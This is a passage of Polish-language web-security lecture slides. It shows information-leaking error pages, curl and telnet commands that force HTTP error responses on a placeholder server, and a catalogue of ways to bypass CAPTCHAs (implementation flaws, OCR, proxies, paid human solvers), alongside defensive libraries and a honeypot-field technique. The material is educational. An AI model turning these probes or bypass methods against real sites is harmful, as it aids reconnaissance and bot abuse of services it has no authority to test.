Jedna ze stron poświęconych bezpieczeństwu webaplikacji zaprezentowała to:

#+BEGIN_EXAMPLE
Warning: Table './xxxxx/sessions' is marked as crashed and should be repaired query: SELECT u.*, s.* FROM users u INNER JOIN sessions s ON u.uid = s.uid WHERE s.sid = '4f21e1xxxxxxxxxxxxxxxxxxxxxxxxxx' in /home/xxxxx/public_html/includes/database.mysqli.inc on line 1xx

Warning: session_start(): Cannot send session cache limiter - headers already sent (output started at /home/xxxxx/public_html/includes/database.mysqli.inc:134) in /home/xxxxx/public_html/includes/bootstrap.inc on line 1xxx

Warning: Cannot modify header information - headers already sent by (output started at /home/xxxxx/public_html/includes/database.mysqli.inc:1xx) in /home/xxxxx/public_html/sites/all/libraries/bad-behavior/bad-behavior/screener.inc.php on line xxx
#+END_EXAMPLE

** Strona błędu - Tomcat
#+BEGIN_EXAMPLE
HTTP Status 500 - An exception occurred processing JSP page /xxx.jsp 
  at line 50

type Exception report

message An exception occurred processing JSP page /xxx.jsp at line 50

description The server encountered an internal error that prevented it from 
  fulfilling this request.

exception

org.apache.jasper.JasperException: An exception occurred processing JSP
  page /xxx.jsp at line 50

47:  <div class="a">
48:  <div class="b">c</div>
49:  <div class="d">
50:    <a href="<%=path %>/e.view?id=<%=x.getId() %>">x</a>&nbsp;|&nbsp;
51:    <a href="<%=path %>/e.view?id=1&xyzId=<%=x.getId() %>">zz1</a> |
52:    <a href="<%=path %>/e.view?id=2&xyzId=<%=x.getId() %>">zz2</a> |
53:    <a href="<%=path %>/e.view?id=3&xyzId=<%=x.getId() %>">zz3</a> |
#+END_EXAMPLE

** Wymuszenie błędów na serwerze
- =400 Bad Request=
#+BEGIN_EXAMPLE
curl -ivs --raw -X POST -H "Content-Length: x" http://www.server.com
#+END_EXAMPLE

- =404 Not Found=
#+BEGIN_EXAMPLE
curl -ivs --raw http://www.server.com/thisPageDoesntExist
#+END_EXAMPLE

- =403 Forbidden (405 Method Not Allowed)=

#+BEGIN_EXAMPLE
curl -ivs --raw -X DELETE http://www.server.com/someResource
#+END_EXAMPLE

#+REVEAL: split

- =408 Request Timeout=
#+BEGIN_EXAMPLE
telnet www.server.com 80
GET / HTTP/1.1
(wait some time)
#+END_EXAMPLE

- =500 Internal Server Error=
#+BEGIN_EXAMPLE
curl -ivs --raw -X GET http://www.server.com?q=something&page=nonNumber
#+END_EXAMPLE

#+BEGIN_EXAMPLE
curl  -ivs --raw http://www.server.com/%
#+END_EXAMPLE

** Biblioteki Access Control
- Spring Security (http://projects.spring.io/spring-security/) :: authentication,
     authorization, security mechanisms (SF, CJ, CSRF etc.), OAUTH
     
- Apache Shiro (http://shiro.apache.org/) :: authentication,
     authorization, cryptography, session management

- jGuard (http://jguard.xwiki.com/) :: authorization, authentication,
     based on JAAS

- OACC (http://oaccframework.org/) :: authorization
   
** Biblioteki "bezpieczeństwa"

Biblioteki dostarczające mechanizmy pomagające redukować ryzyko
związane z atakami na aplikacji webowe:
- HDIV (http://www.hdiv.org) :: Aktywnie rozwijana, pokrywa OWASP Top
     10, integruje się z kilkoma dużymi frameworkami (Spring, Struts,
     Grails, JSF itp)
- ESAPI (https://code.google.com/p/owasp-esapi-java/) :: Biblioteka
     dostarczana przez OWASP, jednakże jest rozwój został wstrzymany

* CAPTCHA
** Nazwa
#+BEGIN_EXAMPLE
C ompletely 
A utomated 
P ublic 
T uring test to tell 
C omputers and 
H umans 
A part 
#+END_EXAMPLE

** Zastosowanie
CAPTCHA-e mają szerokie zastosowanie przy poprawie różnych aspektów
bezpieczeństwa aplikacji. Pomagają zapobiegać:
- atakom słownikom przy formularzach logowania i odzyskiwania hasła
- spamowaniu na blogach i forach
- wykorzystaniu naszych zasobów przez skrypty czy backend-y innych
  aplikacji (formularze ubezpieczeniowe, usługi typu whois, bramki
  sms)
- limitowanie ruchu w naszych usługach (za duża ilość maili wysłana z
  jednego adresu)
- automatom które chciałyby wpłynąć na sondy, głosowania, wybory
- robotom które chcą się rejestrować na forach, tworzyć maile itp
  
** Typy
- Tekstowe :: Przepisz tekst z obrazka lub zdjęcia
- Zadanie :: Rozwiąż proste równanie (12-7=?) lub powiedz jaka pora
             roku jest po zimie
- Audio :: wpisz tekst z pliku dźwiękowego

#+REVEAL: split

- Graficzne :: Wskaż kota na obrazku, ustaw suwak filtra graficznego w
               miejscu gdzie obraz jest najmniej zniekształcony
- Video :: Przepisz animowany tekst
- Skryptowe :: Działają w przeglądarce, proszą o wykonanie prostej
               akcji (przeciągnij kwadrat na zielone pole),
               jednocześnie analizując ruch myszy

** Ataki na CAPTCHA-e
- Słabość konkretnej implementacji :: Niektóre implementacje CAPTCHA
     można obejść wykorzystując słabości ich implementacji:
  - brak losowości, zbudowanie słownika testów (np obrazków) z
    przypisanymi na stałe rozwiązaniami i captchaID
  - skończona ilość rozwiązań (baza testów)
  - zbyt proste rozwiązania (za mała ilość znaków) lub rozwiązania są
    wyrazami ze słownika
  - możliwość wielokrotnego użycia sesji w którym raz poprawnie
    rozwiązano CAPTCHA-ę
  - captcha-e generowane po stronie klienta - mimo, że walidowane po
    stronie serwera, to można podejrzeć dane na podstawie których
    generowały testowy obrazek
  - walidacja po stronie klienta, nawet jeśli rozwiązanie jest podane
    jako hash (MD5)
  - przekazywanie dodatkowych parametrów które mogą wskazywać na
    rozwiązanie

#+REVEAL: split

- OCR :: Tekstowe captcha-e które zawierają zbyt mało szumu i
         zniekształceń mogą zostać rozwiązane przez oprogramowanie OCR
         lub inne działające na zasadzie analizy obrazów

- Podstawienie (CAPTCHA Proxy) :: Czasami serwis który oferuje
     pozornie ciekawa treść dla użytkowników (np.filmy, muzyka) prosi
     o rozwiązanie testu, który pochodzi z zupełnie innego serwisu

- Ludzie (CAPTCHA drones) :: Istnieje możliwość zamówienia rozwiązania
     pakietu CAPTCHA przez ludzi (kilka $ za 1000 rozwiązanych testów)

** Dostępne implementacje
- reCAPTCHA http://recaptcha.net :: Obecnie chyba najpopularniejsza,
     dostarczana jako usługa, "pomaga światu"
- Jcaptcha http://jcaptcha.sourceforge.net :: Biblioteka do
     generowania obrazków i testów audio. Nierozwijana od 2012r.
- SimpleCaptcha http://simplecaptcha.sourceforge.net/ :: Obrazki i
     audio. Nierozwijana od 2013r.
- Kaptcha https://code.google.com/p/kaptcha :: Nierozwijana od 2010r.
- Cage https://akiraly.github.io/cage :: Nierozwijana od 2011r.
- BotDetect https://captcha.com/java-captcha.html :: Aktywnie
     rozwijana, płatna

** Poprawna implementacja
- Captcha powinna być rozwiązywalna dla człowieka, nie powodując przy
  tym irytacji, jednakże nie może być zbyt prosta
- Jeśli nasz test polega na generowaniu zniekształconych tekstów,
  powinna być możliwość wygenerowania innego obrazka w ramach tej
  samej sesji
- Dobrze jest zaoferować alternatywny sposób uwierzytelnienia (inny
  rodzaj CAPTCHA-y, wysłanie SMSa z kodem itp)
- Generując obrazki warto zredukować alfabet pod kątem podobnych
  znaków: =O= i =0=, =1= i =l=
- Weryfikując rozwiązania lepiej nie bazować na wielkości znaków

** Honeypot Captcha (Invisible Captcha)
Ciekawy trick pozwalający odfiltrować request-y
pochodzące od spam-botów ("captcha bez captcha-y").

- Roboty spamujące fora i systemy komentarzy z reguły nie interpretują
  CSS i JS
- W formularzu do wysłania komentarza umieszczamy dodatkowe pole,
  które może mieć ciekawą nazwę jak "message" czy "comment"
- Używając CSS-a ukrywamy to pole (np: =display: none= albo
  modyfikując rozmiar i położenie)
- Na serwerze dodajemy filtr/interceptor/walidację pod kątem naszego
  ukrytego pola
- Odrzucamy każdy request który dostarczył wartość dla naszej
  "przynęty"
- Można też zwrócić poprawny kod (200), tak by wyglądało, że request
  został zaakceptowany

* Linki, materiały
- https://www.owasp.org/
- http://niebezpiecznik.pl
- http://securitum.pl
- http://sekurak.pl
- https://zaufanatrzeciastrona.pl/
- http://www.html5rocks.com/en/tutorials/security/content-security-policy/
- https://haveibeenpwned.com/
